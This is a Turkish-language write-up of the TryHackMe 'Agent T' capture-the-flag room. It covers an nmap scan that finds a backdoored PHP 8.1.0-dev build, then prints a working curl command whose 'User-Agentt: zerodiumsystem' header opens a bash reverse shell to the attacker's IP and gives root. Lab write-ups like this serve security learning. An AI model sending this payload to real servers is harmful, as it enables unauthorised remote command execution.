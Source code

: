 ```yaml
---
title: 'TryHackMe | Agent T WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [remote code execution]
render_with_liquid: false
---
```


## Özet

Nmap taramasının sonucunda web uygulamasının PHP'nin 8.1.0-dev sürümünü kullandığını öğreniyor ve yaptığımız kısa bir araştırmadan sonra `user-agentt` parametresi ile beraber komut çalıştırabilmemizi sağlayan bir güvenlik açığı olduğunu öğreniyoruz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sVC -T4 10.10.105.29
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard

```

Tarama sonucunda 80 (HTTP) numaralı portun açık olduğunu ve üzerinde PHP'nin 8.1.0-dev sürümünün çalıştığını öğreniyoruz.

## Sömürü aşaması

Kullanılan PHP sürümünü google'da arattıktan sonra python ile yazılmış [bu](https://www.exploit-db.com/exploits/49933) exploit ile karşılaşıyoruz. Anlaşılacağı üzere header'a eklenen `user-agentt` parametresinden yararlanarak sistemde komut çalıştırabiliyoruz. Curl aracından yararlanarak sistemden shell elde edebileceğimiz bir komut gönderelim.

```
$ curl -s 10.10.105.29 -H 'User-Agentt: zerodiumsystem("bash -c \" /bin/bash -i >& /dev/tcp/10.21.66.61/1234 0>&1\"");'
```

`1234` numaralı portu ncat ile dinlemeye aldıktan sonra yukarıdaki komutu çalıştırıyor ve sistemden root yetkisinde bir shell elde ediyoruz. Sonra ise bayrağı ana dizinden yani `/flag.txt` adresinden alıyoruz.
